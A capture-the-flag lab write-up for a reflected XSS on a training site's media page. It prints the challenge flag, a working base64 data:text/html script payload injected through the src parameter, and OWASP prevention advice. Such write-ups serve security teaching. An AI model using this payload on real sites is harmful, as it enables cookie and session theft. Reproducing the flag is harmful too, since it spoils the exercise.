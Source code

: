 # XSS MEDIAS REQUEST

## Flag
```
928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## Discovery
On the page http://{IP_ADDRESS}/

The NSA image (the one with headphone) leads to http://{IP_ADDRESS}/?page=media&src=nsa \
You can change nsa to base64 script
```diff
"data:text/html;base64," + base64("<script>alert("wtf");</script>")
> data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+
```
Finaly go to : \
http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+ \
**This work because the request response accept text/html**

## Use
> the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site

## Prevention
> - never insert untrusted data except in allowed locations
> - HTML escape before inserting untrusted data into HTML element content
> - attribute escape before inserting untrusted data into HTML common attributes
> - javascript escape before inserting untrusted data into javascript data values
> - CSS escape and strictly validate before inserting untrusted data into HTML style property values
> - URL escape before inserting untrusted data into HTML URL parameter values
> - sanitize HTML markup with a library designed for the job
> - avoid javascript URL's

## Documentation
- [owasp - XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
- [owasp - prevent XSS breaches](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [base64](https://www.base64decode.org/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly#readme)